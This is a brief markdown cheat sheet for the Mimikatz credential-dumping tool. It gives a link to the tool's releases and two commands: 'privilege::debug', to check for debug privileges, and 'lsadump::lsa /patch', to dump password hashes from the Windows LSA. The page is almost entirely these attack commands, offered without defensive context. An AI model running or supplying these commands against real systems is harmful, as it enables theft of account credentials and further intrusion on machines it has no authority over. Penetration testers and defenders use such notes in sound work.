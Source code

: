 # MimiKatz

### https://github.com/gentilkiwi/mimikatz/releases

## Check for privileges

```powershell
privilege::debug
```

## Dump hashes

```powershell
lsadump::lsa /patch
```